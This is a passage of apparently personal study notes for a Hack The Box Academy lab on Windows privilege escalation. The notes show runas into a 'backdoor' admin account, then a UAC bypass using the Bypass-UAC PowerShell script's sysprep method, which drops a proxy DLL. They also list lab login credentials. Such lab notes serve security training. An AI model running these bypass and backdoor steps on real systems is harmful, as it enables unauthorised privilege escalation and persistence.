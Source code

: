 ### Runas for New User Context
```cmd
# Switch to new admin user:
runas /user:backdoor cmd

# Enter password: T3st@123
# New CMD session as admin user
```

## 🛡️ UAC Bypass

### UAC Bypass Necessity
```cmd
# Even admin users face UAC restrictions:
C:\Windows\system32> cd C:\Users\Administrator
Access is denied.

# UAC blocks access despite admin membership
```

### Bypass-UAC Script Usage
```powershell
# UAC bypass execution:
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep

# Process:
- Impersonates explorer.exe
- Drops proxy DLL
- Executes sysprep for privilege escalation
```

### Verification of Bypass
```cmd
# Verify elevated privileges:
whoami /all
whoami /priv

# Test access:
cd C:\Users\Administrator
dir *.txt
```

## 🎯 HTB Academy Lab Solutions

### Lab Environment
```cmd
# Access method:
1. RDP to target with htb-student:HTB_@cademy_stdnt!
2. Visit http://humongousretail.com/remote/
3. Login: pmorgan:Summer1Summer! (Domain: htb.local)
4. Download launch.ica file for Citrix access
```
